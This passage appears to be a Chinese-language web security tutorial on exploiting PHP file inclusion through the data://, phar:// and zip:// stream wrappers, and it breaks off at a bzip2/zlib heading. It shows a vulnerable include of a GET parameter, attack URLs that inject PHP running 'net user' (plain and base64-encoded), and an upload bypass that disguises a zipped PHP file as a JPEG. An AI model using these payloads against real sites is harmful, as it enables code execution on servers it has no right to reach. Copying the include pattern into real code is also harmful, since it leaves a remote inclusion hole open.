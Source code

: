 在URL中和在代码中的写法不太一样。URL中的写法示例：`data:text/plain;base64,PD9waHAgc3lzdGVtKCJuZXQgdXNlciIpPz4=`，代码中的写法示例：`file_get_contents('data://text/plain;base64,SSBsb3ZlIFBIUAo=')`。

下面举例：  

+ data:text/plain,...

```php
<?php 
　　@include($_GET["file"]);
?>
url: ...?file=data:text/plain,<?php system("net user")?>
result: user information
```

+ data://text/base64,...

```php
<?php 
　　@include($_GET["file"]);
?>
url: ...?file=data:text/plain;base64,PD9waHAgc3lzdGVtKCJuZXQgdXNlciIpPz4=
result: user information
```

+ data://image/jpeg;base64,...

```php
<?php 
　　$jpegimage = imagecreatefromjpeg("data://image/jpeg;base64," . base64_encode($sql_result_array['imagedata'])); 
?>
图片木马 
```

#### phar://及其他压缩协议

这些协议在双off的时候也可以使用。

##### phar://

phar，官网叫做php归档。实际上这是一个用于解压缩的协议，具体使用方法如下：`phar://[待解压缩文件路径+文件名（包含后缀）]/[解压后的文件名称（包含后缀）]`。  

值得注意的是：虽然强制要求必须写上后缀名，但待解压的文件只要文件格式是zip(其他压缩格式有待实验)即可，对后缀名的形式并没有要求。利用这个特性，经常可以进行一些绕过的操作。  

例如：

```
/about.php?file=phar://./images/file.jpg/1.php
[这是把想要上传的php文件打包成了压缩包，又更改成了jpg后缀进行绕过，上传，然后利用phar的解压还原成原来的文件。]
```

##### zip://

zip协议和phar非常类似，只不过它的格式有些差别，并且只能解压zip：`zip://[待解压缩文件路径+文件名.zip]#[解压后的文件名称（包含后缀）]`。在URL中会忽略#号后面的内容，所以要对它进行URL编码：`zip://test.zip%23file.txt`。

##### bzip2://和zlib://

